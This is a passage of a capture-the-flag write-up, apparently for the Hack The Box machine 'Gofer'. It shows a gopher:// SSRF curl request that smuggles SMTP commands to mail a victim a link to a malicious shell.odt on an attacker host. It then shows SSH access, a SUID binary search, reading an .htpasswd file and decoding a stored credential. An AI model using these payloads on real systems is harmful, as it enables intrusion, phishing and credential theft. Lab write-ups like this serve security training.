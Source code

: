 Triggering the exploit:
```bash
~z➤ curl -X POST "proxy.gofer.htb/index.php?url=gopher://2130706433:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%20<a+href%3d'http%3a//10.10.14.7:6666/shell.odt>this</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a"
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as 4D4EF806D
221 2.0.0 Bye
1%
```


SSHing into jhudson user:
```bash
.../infosec/htb/p8➤ ssh -i ./kkk jhudson@gofer.htb
...
jhudson@gofer:~$ id
uid=1000(jhudson) gid=1000(jhudson) groups=1000(jhudson),108(netdev)
jhudson@gofer:~$ ls
Downloads  user.txt
```

## Root Flag

Searching for SUID bins:
```bash
jhudson@gofer:~$ find / -type f -perm -4000 2>/dev/null
...
/usr/bin/chfn
/usr/bin/newgrp
/usr/local/bin/notes
jhudson@gofer:~$ ls -ltra /usr/local/bin/notes
-rwsr-s--- 1 root dev 17168 Apr 28 16:06 /usr/local/bin/notes

jhudson@gofer:~$ id
uid=1000(jhudson) gid=1000(jhudson) groups=1000(jhudson),108(netdev)
```

HTTP Creds!
```
jhudson@gofer:/etc/apache2/sites-enabled$ cat /etc/apache2/.htpasswd
tbuckley:$apr1$YcZb9OIz$fRzQMx20VskXgmH65jjLh/
```

nono
```bash
.../infosec/htb/p8➤ echo 'dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=' | base64 -d
tbuckley:ooP4dietie3o_hquaeti
```
